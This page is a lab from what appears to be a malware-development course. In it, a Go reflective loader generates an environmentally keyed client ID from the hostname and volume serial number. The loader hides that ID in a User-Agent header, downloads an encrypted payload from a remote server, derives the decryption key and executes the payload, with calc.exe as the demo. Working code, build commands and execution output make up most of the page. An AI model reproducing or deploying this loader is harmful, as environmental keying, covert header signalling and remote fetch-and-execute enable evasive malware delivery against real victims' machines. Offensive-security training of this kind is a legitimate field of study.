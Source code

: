 ```yaml
---
showTableOfContents: true
title: "Implement Client ID and Key Derivation (Lab 8.2)"
type: "page"
---
```

## Goal
We'll now implement the final piece of the client-side logic for this module, and in fact the course as a whole: generating the client ID dynamically based on system information and integrating it fully into the communication and key derivation process.

So we'll only modify our agent/loader in this lab, and we'll pick up exactly where we left off over there. In that lab we hardcoded our clientID value as `MyTestClient-9876`, but now we want to generate it dynamically based on system characteristics (hostname and volume serial number). We'll then use this dynamically generated ID, along with the current timestamp, in both the User-Agent header sent to the server and in the client-side key derivation process to ensure it matches the key derived by the server.


## Code
Add the following function to the loader/agent application from Lab 8.1


```go
// Get system information for client identification
func getEnvironmentalID() (string, error) {
	// Get system volume information for environmental keying
	var volumeName [256]uint16 // Buffer for volume name (not used for ID)
	var volumeSerial uint32    // Variable to store the serial number

	// GetVolumeInformation for C: drive
	// We pass nil for pointers we don't need, except volumeSerial.
	err := windows.GetVolumeInformation(
		windows.StringToUTF16Ptr("C:\\"), // Target volume C:
		&volumeName[0],                   // Buffer for name (optional)
		uint32(len(volumeName)),          // Size of name buffer
		&volumeSerial,                    // Pointer to store serial number <<< IMPORTANT
		nil,                              // Pointer for max component length (optional)
		nil,                              // Pointer for file system flags (optional)
		nil,                              // Buffer for file system name (optional)
		0,                                // Size of file system name buffer
	)
	if err != nil {
		return "", fmt.Errorf("failed to get volume info: %w", err)
	}

	// Get hostname
	hostname, err := os.Hostname()
	if err != nil {
		return "", fmt.Errorf("failed to get hostname: %w", err)
	}

	// Combine information to create a unique but predictable client ID
	// Format: <first 5 chars of hostname>-<volume serial as hex>
	shortName := hostname
	if len(hostname) > 5 {
		shortName = hostname[:5] // Truncate hostname if longer than 5 chars
	}

	// Use Sprintf with %x verb to format the serial number as lowercase hex
	clientID := fmt.Sprintf("%s-%x", shortName, volumeSerial)
	fmt.Printf("[+] Generated Client ID: %s\n", clientID)

	return clientID, nil
}
```

And now we'll just need to make a small adjustment to `main()` to use this new function to derive the `clientID`.

Replace this line:
```go
clientID := "MyTestClient-9876"
```

With:
```go
fmt.Println("[+] Generating client ID from environment...")
clientID, err := getEnvironmentalID()
if err != nil {
    log.Fatalf("[-] Failed to generate client ID: %v", err)
}
```

## Code Breakdown
- The hardcoded placeholder `clientID` is removed.
- Instead, it's now being assigned the return value `getEnvironmentalID`
- This function combines the first 5 characters of the host name with the HD's serial number.
- The rest of the execution flow is the exact same, we are just now using this dynamically generated clientID value instead of the hardcoded value as we did before.


## Instructions
Run the exact same server from Lab 8.1 - this remains unchanged. You can once again either use `go build`, or from the directory containing the server, private key, cert, and `calc_dll.dll`simply run:

```
go run .
```

Then, compile the new loader+agent application, and copy it over to target system.

```shell
GOOS=windows GOARCH=amd64 go build  
```

Once on your target system simply invoke our new application.

## Results
```shell
PS C:\Users\vuilhond\Desktop> .\reflect_agent.exe
[+] Reflective Loader Agent (Network Download)
[+] Generating client ID from environment...
[+] Generated Client ID: DESKT-5c9150c8
[+] Downloading payload...
[+] Connecting to server: https://192.168.2.123:8443/update
[+] Using Timestamp: 1745685920
[+] Using ClientID: DESKT-5c9150c8
[+] Sending User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) rv:1745685920-DESKT-5c9150c8
[+] Downloaded 111493 bytes of obfuscated payload.
[+] Deriving decryption key...
    Using Timestamp for Key: 1745685920
    Using ClientID for Key: DESKT-5c9150c8
[+] Decrypting downloaded content...
[+] Decryption complete. Resulting size: 111493 bytes.

// REST OF OUTPUT IS THE SAME AS BEFORE

```

And of course we'll also see `calc.exe` pop up.

## Discussion
We can now see that we are dynamically generating a client ID (`Generated Client ID: DESKT-5c9150c8`), and that we are then using this value in our User-Agent (`[+] Sending User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) rv:1745685920-DESKT-5c9150c8`).

And of course the fact that we are able to once again launch `calc.exe` confirms that the agent correctly generated the client ID, sent it to the server, and used it (along with the correct timestamp) to derive the appropriate decryption key, matching the key derived by the server based on the received User-Agent. This completes the integration of the dynamic client identification with the key derivation process.

## Conclusion
That wraps it up it for this course, in the next section we'll review what we've done, as well as discuss the weakness of our current implementation, which we will then improve on in our next course :D


---
[|TOC|]({{< ref "../moc.md" >}})
[|PREV|]({{< ref "cs_lab.md" >}})
[|NEXT|]({{< ref "../module09/decouple.md" >}})